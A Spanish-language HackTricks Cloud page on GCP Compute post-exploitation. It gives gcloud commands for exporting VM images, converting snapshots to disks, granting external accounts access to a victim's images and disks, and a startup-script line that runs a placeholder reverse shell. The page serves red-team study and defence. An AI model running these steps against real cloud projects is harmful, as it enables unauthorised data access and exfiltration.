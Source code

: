 # GCP - Compute Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (Redes) consulta:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes ya existentes** o **crear nuevas imágenes de VMs en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y, sin duda, **privilegios sobre cloudbuild**, ya que es el **servicio** que se va a solicitar para realizar la exportación.\
Además, para que esto funcione, el SA de codebuild y el SA de compute necesitan permisos privilegiados.\
El SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Instantáneas y Discos localmente

No es posible exportar instantáneas y discos directamente, pero es posible **transformar una instantánea en un disco, un disco en una imagen** y, siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeccionar una imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen,** es posible otorgar acceso a una cuenta externa sobre la imagen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
y luego crear una nueva VM a partir de ella:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si no pudiste dar acceso a tu cuenta externa a través de la imagen, podrías lanzar una VM usando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un shell inverso** para acceder a la imagen añadiendo el parámetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeccionar un Snapshot/Disk adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **otorgar acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, otorgar acceso sobre el snapshot o crear un disco a partir de él):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Adjuntar el disco** a una instancia:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar el disco dentro de la VM:

1.  **SSH en la VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Típicamente, puedes encontrarlo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatear y Montar el Disco** (si es un disco nuevo o en bruto):
*   Crear un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montar el disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si **no puedes dar acceso a un proyecto externo** a la instantánea o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que la instantánea/disco**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
